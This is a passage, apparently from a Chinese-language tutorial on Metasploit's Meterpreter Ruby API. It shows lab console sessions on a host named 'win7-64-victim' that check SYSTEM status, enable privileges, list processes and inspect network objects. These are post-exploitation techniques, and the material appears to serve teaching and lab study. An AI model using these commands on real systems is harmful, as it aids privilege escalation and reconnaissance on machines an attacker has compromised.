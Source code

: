     ```
    >> client.sys.config.is_system?
    => true 
    ```

+   启用所有可能的特权：`getpriv`

    ```
    >> client.sys.config.getprivs
    => ["SeDebugPrivilege", "SeIncreaseQuotaPrivilege", "SeSecurityPrivilege", "SeTakeOwnershipPrivilege", "SeLoadDriverPrivilege", "SeSystemProfilePrivilege", "SeSystemtimePrivilege", "SeProfileSingleProcessPrivilege", "SeIncreaseBasePriorityPrivilege", "SeCreatePagefilePrivilege", "SeBackupPrivilege", "SeRestorePrivilege", "SeShutdownPrivilege", "SeSystemEnvironmentPrivilege", "SeChangeNotifyPrivilege", "SeRemoteShutdownPrivilege", "SeUndockPrivilege", "SeManageVolumePrivilege"] 
    ```

### 进程类：`process.rb`

+   获取当前进程ID：`getpid`

    ```
    >> client.sys.process.getpid
    => 2392 
    ```

+   获取所有存在的进程及其详细信息（pid、ppid、名称、路径、会话、用户、架构）：`ps`

    ```
    client.sys.process.get_processes
    # Or
    client.sys.process.processes 
    ```

## 扩展Stdapi::Fs：`net`

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net`

```
>> client.net
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001dcd3d0 @aliases={"config"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Config:0x00000001dcd4e8 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "socket"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Socket:0x00000001dcd4c0 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "resolve"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Resolve:0x00000001dcd470 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>}> 
```

+   获取当前受害者接口：`ifconfig` 或 `ipconfig`
